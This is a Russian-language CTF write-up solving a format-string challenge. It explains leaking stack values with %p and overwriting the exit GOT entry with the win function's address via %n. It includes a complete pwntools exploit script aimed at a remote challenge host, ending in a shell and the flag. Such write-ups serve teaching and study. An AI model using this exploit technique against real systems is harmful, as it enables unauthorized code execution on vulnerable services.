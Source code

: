 Фактически, уязвимость тут состоит в том, что мы вызываем функцию `printf` без спецификатора формата, что позволяет нам записывать данные в память, используя спецификатор `%n`, он вместо вывода чего-то со стека в нужном формате, записывает по адресу лежащему на нем количество уже введенных символов.

После вызова `printf` вызывается только `exit` , так что нам будет удобнее всего перезаписать адрес exit в GOT-табличке на адрес `win` 

Запустим наш бинарь, посмотрим после какого элемента на стеке идет наш буфер:

```bash
./main
%p %p %p %p %p %p %p %p
0x1e252a1 0x18 0x7f37a0977a5d 0x1e252b8 0x410 **0x7025207025207025** 0x2520702520702520 0xa70252070252070
```

С шестого!

Напишем сплойт:

```python
from pwn import *
context.log_level = "debug"
import time

elf = ELF('./main')
exit_got = elf.got['exit']
win = elf.sym['win']

print(hex(exit_got)) #0x404018
print(hex(win)) #0x401156

# p = process("./main")
p = remote("192.168.12.13", 1923)

payload = b""
payload += b"%4198742c"
payload += b"%8$naaa"
payload += b"\x18\x40\x40\x00\x00\x00\x00\x00"

p.sendline(payload)

p.interactive()

```

Фактически мы кладем наш пейлоад на 6,7,8 место на стеке, при том `printf` с помощью магии спецификаторов формата выводит 4198742 пробелов, что равняется 0x401156, те нашему адресу, а потом кладет это в 8 элемет на стеке, те адрес записи `exit` в GOT-таблице

Запускаем сплойт, получаем шелл, `cat flag`

FLAG: nto{easy_formt_string}


